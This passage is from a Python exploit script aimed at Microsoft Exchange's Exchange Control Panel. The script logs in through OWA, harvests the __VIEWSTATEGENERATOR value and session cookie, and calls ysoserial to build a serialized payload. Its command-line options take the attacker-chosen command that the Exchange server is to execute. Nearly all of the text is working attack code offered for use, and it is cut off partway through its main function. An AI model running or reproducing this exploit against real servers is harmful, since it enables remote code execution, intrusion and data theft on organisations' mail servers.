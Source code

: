 ```
                "destination": ""+url+"", "flags": "4", "forcedownlevel": "0", "username": ""+user+""}
    headers = {"Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Upgrade-Insecure-Requests": "1",
            "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:73.0) Gecko/20100101 Firefox/73.0", "Connection": "close", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Cookie": "PrivateComputer=true; PBack=0"}
    cookies = {"PBack": "0", "PrivateComputer": "true"}
    login_url = base_url + '/owa/auth.owa'
    print("[+] Login url: {}".format(login_url))
    try:
        login = session.post(login_url, data=paramsPost,
                          headers=headers, verify=False, timeout=30)
        print("[*] Status code: %i" % login.status_code)
        if "reason=" in login.text or "reason=" in login.url and "owaLoading" in login.text:
            print("[!] Login Incorrect, please try again with a different account..")
            # sys.exit(1)
        #print(str(response.text))
    except Exception as e:
        print("[!] login error , error: {}".format(e))
        sys.exit(1)
    print("[+] Login successfully! ")
    try:
        print("[*] Tring to get __VIEWSTATEGENERATOR...")
        target_url = "{}/ecp/default.aspx".format(base_url)
        new_response = session.get(target_url, verify=False, timeout=15)
        view = re.compile(
            'id="__VIEWSTATEGENERATOR" value="(.+?)"').findall(str(new_response.text))[0]
        print("[+] Done! __VIEWSTATEGENERATOR:{}".format(view))
    except:
        view = "B97B4E27"
        print("[*] Can't get __VIEWSTATEGENERATOR, use default value: {}".format(view))
    try:
        print("[*] Tring to get ASP.NET_SessionId....")
        key = session.cookies['ASP.NET_SessionId']
        print("[+] Done!  ASP.NET_SessionId: {}".format(key))
    except Exception as e:
        key = None
        print("[!] Get ASP.NET_SessionId error, error: {} \n[*] Exit..".format(e)) 
    return view, key, base_url

def ysoserial(cmd):
    cmd = ysoserial_path+cmd
    r = os.popen(cmd)
    res = r.readlines()
    return res[-1]

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument("-s", "--server", required=True, help="ECP Server URL Example: http://ip/owa")
    parser.add_argument("-u", "--user", required=True, help="login account Example: domain\\user")
    parser.add_argument("-p", "--password", required=True, help="Password")
    parser.add_argument("-c", "--cmd", help="Command u want to execute", required=True)
    parser.add_argument("-e", "--encrypt", help="Encrypt the payload", action='store_true',default=False)
    args = parser.parse_args()
    url = args.server
    print("[*] Start to exploit..")
    user = args.user
    pwd = args.password
    command = args.cmd
```